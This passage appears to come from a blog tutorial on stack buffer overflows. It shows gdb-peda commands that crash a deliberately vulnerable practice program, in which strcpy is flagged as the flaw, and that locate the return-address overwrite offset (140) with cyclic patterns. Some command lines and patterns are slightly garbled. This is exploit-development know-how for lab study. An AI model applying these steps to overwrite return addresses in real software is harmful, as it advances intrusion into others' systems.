 ```shell
gdb-$ peda run $ (python -c 'print "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae\xE0\x6d\XE7\XF7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag"')
 [0] main() Start here.
[1] Calling funcMyLife().
[2] funcMyLife() Start here.
[3] Variable buffer declaration.
[4] Calling strcpy(). <= [Vulnerability]
Message: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5AemAe8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
[5] funcMyLife() end at the next instruction (ret). 
f
 Program received signal SIGSEGV, Segmentation fault.
[...]
```

As you can see, I got into the **getchar()** function which interrupted the allow execution to enter the **<span style="color:green">f</span>** character before the crash.
{: .text-justify}

## THE PATTERN COMMAND

Obviously, It is possible to directly do all this in **gdb-peda**… Generate a **200** characters pattern? Pfff, easy!
{: .text-justify}

```shell
gdb-peda$ pattern create 200
 AAA% AAsAABAA $ AAnAACAA-AA (AADAA; AA) AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAnAASAAoAATAApAAUAAqAAVAArAAWAAsAAXAAtAAYAAuAAZAAvAAwA ' 
gdb-peda$ r AAA% AAsAABAA $ AAnAACAA-AA (AADAA; AA) AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAnAASAAoAATAApAAUAAqAAVAArAAWAAsAAXAAtAAYAAuAAZAAvAAwA'
 [...]
EIP: 0x41416d41 (' AmAA ')
[...]
Stopped reason: SIGSEGV
0x41416d41 in ?? ()
```

Finding where the **return address** overwrite is a bit tedious? Don't panic, **gdb** does it for you!
{: .text-justify}

```shell
gdb-peda$ pattern offset AmAA 
AmAA found at offset: 140
```
 Or better, better, I'll do it all of a sudden, and automatically in addition:
{: .text-justify}

